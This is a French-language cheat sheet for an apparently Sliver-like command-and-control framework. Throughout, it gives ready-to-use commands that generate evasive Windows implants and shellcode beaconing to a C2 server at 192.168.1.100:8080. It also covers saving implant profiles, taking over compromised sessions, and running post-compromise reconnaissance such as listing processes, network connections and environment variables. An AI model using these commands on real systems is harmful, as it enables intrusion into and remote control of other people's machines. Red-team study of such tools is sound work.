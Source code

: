 ### Implants avancés
```bash
# Beacon avec jitter
generate beacon --http 192.168.1.100:8080 --jitter 30s --interval 60s --os windows --format exe

# Avec évasion
generate --http 192.168.1.100:8080 --os windows --evasion --format exe

# Shellcode
generate --http 192.168.1.100:8080 --os windows --format shellcode --save /tmp/
```

### Profils réutilisables
```bash
# Créer un profil
profiles new --http 192.168.1.100:8080 --os windows --arch amd64 --format exe my-profile

# Utiliser un profil
profiles generate my-profile --save /tmp/

# Lister les profils
profiles
```

## 🎮 Gestion des Sessions

### Sessions de base
```bash
sessions               # Lister les sessions actives
sessions -i <ID>       # Interagir avec une session
use <session-name>     # Utiliser une session
background             # Mettre en arrière-plan
```

### Informations système
```bash
info                   # Informations de base
whoami                 # Utilisateur actuel
getuid                 # UID/GID
pwd                    # Répertoire courant
getpid                 # PID du processus
```

## 🔍 Reconnaissance

### Système
```bash
ps                     # Processus en cours
ps -T                  # Avec threads
ps -e                  # Tous les processus
netstat                # Connexions réseau
ifconfig               # Interfaces réseau
env                    # Variables d'environnement
```
